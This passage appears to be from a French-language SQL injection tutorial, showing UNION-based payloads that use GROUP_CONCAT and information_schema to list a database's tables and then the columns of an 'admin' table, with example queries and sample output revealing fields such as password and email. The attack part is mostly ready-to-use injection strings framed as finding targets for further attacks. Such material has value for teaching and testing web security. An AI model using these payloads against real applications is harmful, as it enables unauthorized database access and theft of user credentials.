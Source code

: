 **Explication :**
- **Contexte:** Connaître les tables présentes dans la base de données permet d'identifier des cibles pour des attaques plus spécifiques.
- **Objectif:** Obtenir les noms des tables dans la base de données courante.
- **Fonctionnement:** Utilisation de `GROUP_CONCAT` pour concaténer les noms de tables.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, GROUP_CONCAT(table_name), 2 FROM information_schema.tables WHERE table_schema=DATABASE() ORDER BY 1;
```

Résultat :
| id | titre                                             | contenu |
|----|---------------------------------------------------|---------|
| 0  | utilisateurs,articles,produits,commandes,...      | 2       |

Les tables présentes sont `utilisateurs`, `articles`, `produits`, `commandes`, etc.

## 2.5. Lister les noms des colonnes d'une table spécifique

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, GROUP_CONCAT(column_name), 2 FROM information_schema.columns WHERE table_name="admin" ORDER BY 1; #
```

**Explication :**
- **Contexte:** Connaître les colonnes d'une table spécifique est crucial pour extraire des données précises.
- **Objectif:** Obtenir les noms des colonnes de la table nommée "admin".
- **Fonctionnement:** Utilisation de `GROUP_CONCAT` pour concaténer les noms de colonnes.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, GROUP_CONCAT(column_name), 2 FROM information_schema.columns WHERE table_name="admin" ORDER BY 1;
```

Résultat :
| id | titre                                 | contenu |
|----|---------------------------------------|---------|
| 0  | id,nom_utilisateur,motdepasse,email,... | 2       |
